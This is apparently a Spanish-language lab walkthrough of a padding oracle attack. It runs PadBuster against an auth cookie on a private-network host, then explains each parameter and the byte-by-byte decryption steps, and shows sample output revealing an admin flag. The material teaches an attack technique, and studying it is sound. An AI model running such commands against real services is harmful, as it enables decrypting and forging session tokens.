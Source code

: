 ### Comando:

```bash
padbuster http://192.168.1.60/index.php ycGAxjRY6cQCreynFuWRD1hrX3k9Xr66 8 -cookies "auth=ycGAxjRY6cQCreynFuWRD1hrX3k9Xr66"
````

### Explicación de cada parámetro:

|Parámetro|Descripción|
|---|---|
|`http://192.168.1.60/index.php`|URL del objetivo vulnerable.|
|`ycGAxjRY6cQCreynFuWRD1hrX3k9Xr66`|Token cifrado (en base64 o hexadecimal).|
|`8`|Tamaño del bloque de cifrado en bytes. Comúnmente 8 o 16 según el algoritmo.|
|`-cookies`|Parámetro para indicar que el token se envía en una cookie.|
|`"auth=..."`|Cookie donde se encuentra el token. PadBuster reemplazará este valor con versiones modificadas para el ataque.|

---

### ¿Qué hace PadBuster?

1. Divide el token en bloques de 8 bytes (en este caso).
    
2. Genera combinaciones byte por byte del penúltimo bloque.
    
3. Envía esas combinaciones al servidor.
    
4. Analiza si el servidor devuelve un mensaje de “relleno válido”.
    
5. Deduce el byte correcto del texto en claro.
    
6. Repite hasta descifrar todo el mensaje.
    

---

## Resultado esperado

PadBuster mostrará algo como:

```
Block 1 Results:
[+] Byte 1: 0x41 (A)
[+] Byte 2: 0x64 (d)
...
Decrypted Block: 'Admin=1&user=pedro'
```

```bash
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1192

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

```